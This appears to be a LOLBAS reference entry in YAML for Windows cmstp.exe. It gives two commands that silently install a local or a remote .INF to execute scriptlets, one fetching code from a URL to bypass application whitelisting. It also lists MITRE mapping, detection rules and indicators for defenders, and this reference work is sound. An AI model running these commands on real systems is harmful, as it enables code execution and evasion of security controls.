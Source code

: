 ```yaml
---
Name: Cmstp.exe
Description: Installs or removes a Connection Manager service profile.
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
    Description: Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Download and run scriptlets from internet.
    Category: Execute
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10, Windows 11
  - Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
    Description: Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Execute code directly from Internet.
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218.003
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\cmstp.exe
  - Path: C:\Windows\SysWOW64\cmstp.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/6d0d58dfe240f7ef46e7da928c0b65223a46c3b2/rules/windows/process_creation/sysmon_cmstp_execution_by_creation.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/08ca62cc8860f4660e945805d0dd615ce75258c1/rules/windows/process_creation/win_uac_cmstp.yml
  - Splunk: https://github.com/splunk/security_content/blob/bee2a4cefa533f286c546cbe6798a0b5dec3e5ef/detections/endpoint/cmlua_or_cmstplua_uac_bypass.yml
  - Elastic: https://github.com/elastic/detection-rules/blob/82ec6ac1eeb62a1383792719a1943b551264ed16/rules/windows/defense_evasion_suspicious_managedcode_host_process.toml
  - Elastic: https://github.com/elastic/detection-rules/blob/414d32027632a49fb239abb8fbbb55d3fa8dd861/rules/windows/defense_evasion_unusual_process_network_connection.toml
  - IOC: Execution of cmstp.exe without a VPN use case is suspicious
  - IOC: DotNet CLR libraries loaded into cmstp.exe
  - IOC: DotNet CLR Usage Log - cmstp.exe.log
Resources:
  - Link: https://twitter.com/NickTyrer/status/958450014111633408
  - Link: https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  - Link: https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  - Link: https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  - Link: https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp
Acknowledgement:
  - Person: Oddvar Moe
    Handle: '@oddvarmoe'
  - Person: Nick Tyrer
    Handle: '@NickTyrer'
---
```

